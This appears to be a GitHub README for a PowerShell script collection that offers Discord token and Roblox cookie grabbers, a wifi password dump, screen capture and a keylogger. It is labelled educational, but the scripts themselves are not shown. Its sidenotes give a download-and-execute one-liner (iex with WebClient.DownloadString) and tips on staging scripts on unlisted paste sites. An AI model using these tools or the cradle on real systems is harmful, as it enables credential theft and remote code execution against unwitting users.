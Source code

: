 # powershell-scripts
An array of PowerShell scripts I wrote for educational purposes. Don't misuse these.

Some of these scripts are parts of code from other developers so I will credit them where I can

Includes
 - Uploading to Imgur in powershell
 - Grabbing Discord Tokens with Powershell
 - Getting stored wifi passwords with powershell
 - Screenshotting the users screen in powershell
 - Grabbing Roblox Cookies with powershell
 - A Powershell Keylogger

## Credit

Discord Webhooks in Powershell | [gngrninja](https://github.com/gngrninja/blog/blob/master/DiscordWebhook/embeds.ps1)

Discord Token Grabbing in Powershell | [F1sk](https://github.com/FiskDk/PowerShell-Discord-Token-Grabber)

Getting Images from Clipboard in Powershell | [thom schumacher](https://stackoverflow.com/questions/55215482/save-image-from-clipboard-using-powershell)

Keylogger Base | [dasgoll](https://gist.github.com/dasgoll/7ca1c059dd3b3fbc7277)

Uploading Images to Imgur in Powershell | [Deleted Reddit User](https://www.reddit.com/r/PowerShell/comments/2i0t6f/comment/ckzwori/?utm_source=share&utm_medium=web2x&context=3)

Note: All of these have been web archived.


## Helpful Powershell Sidenotes

```rundll32 url.dll,FileProtocolHandler 'url here'```

This opens a url in the default browser

```iex ((New-Object System.Net.WebClient).DownloadString('url here'))```

downloads a powershell script from a raw text hosting site [pastebin](https://pastebin.com/) (use unlisted mode if your uploading a script with sensitive information included), [ghostbin](https://ghostbin.com/)
